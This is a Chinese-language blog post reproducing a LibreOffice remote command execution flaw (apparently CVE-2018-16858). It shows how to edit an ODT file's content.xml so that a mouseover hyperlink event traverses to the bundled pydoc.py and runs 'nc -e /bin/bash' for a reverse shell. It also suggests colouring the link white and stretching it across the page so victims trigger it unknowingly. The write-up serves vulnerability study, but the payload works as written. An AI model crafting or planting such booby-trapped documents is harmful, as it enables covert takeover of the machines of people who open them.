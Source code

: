 ```yaml
---
title: libreoffice命令执行复现
tags:
  - CVE
  - libreoffice
categories:
  - 漏洞复现
copyright: true
abbrlink: cdf8e41e
date: 2019-07-13 16:19:25
---
```


![](https://s2.ax1x.com/2019/07/13/Z4drIs.jpg)
<!--more-->
### Start ###

打开Libreoffice writer新建个'word':

插入(Insert) => 超链接(Hyperlink) => 设置(图标)，添加个鼠标事件，保存为odt文档:

![](https://s2.ax1x.com/2019/07/13/Z4NnxS.png)

使用解压工具解压/查看odt文件，把`content.xml`拖出来,看下里面有什么内容。

![](https://s2.ax1x.com/2019/07/13/Z4NKKg.png)

可以看到这是类似一个加载本地的一个脚本然后使用python运行的。

```
<script:event-listener script:language="ooo:script" script:event-name="dom:mouseover" xlink:href="vnd.sun.star.script:pythonSamples|TableSample.py$createTable?language=Python&amp;location=share" xlink:type="simple"/>
```

作者文章中写到：Libreoffice自带有Python和预装部分脚本，还可以通过目录遍历访问(调用)其他脚本。

在`LibreOffice\program\python-core-3.5.5\lib\`中的`pydoc.py`通过参数cmd传递给`os.system()`执行，而且还没有做过滤。

![](https://s2.ax1x.com/2019/07/13/Z4Nm28.png)

So，通过修改`content.xml`内容重新压缩回odt文件，当打开odt文件鼠标碰到超链接是，就会触发反弹shell。

```
<script:event-listener script:language="ooo:script" script:event-name="dom:mouseover" xlink:href="vnd.sun.star.script:../../../program/python-core-3.5.5/lib/pydoc.py$tempfilepager(1, nc -e /bin/bash 127.0.0.1 12345)?language=Python&amp;location=share" xlink:type="simple"/>
```

![](https://s2.ax1x.com/2019/07/13/Z4Ne8f.png)

### Video ###

<div class="aspect-ratio"><iframe src="//player.bilibili.com/player.html?aid=63298083&cid=109925123&page=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe></div>

### END ###

为了增加触发率，可以设置超链接为白色并遍布整个页面

新版中，python鼠标事件好像已被移除

**Reference**

https://insert-script.blogspot.com/2019/02/libreoffice-cve-2018-16858-remote-code.html

https://testofpen.wordpress.com/2019/05/13/cve-2018-16858/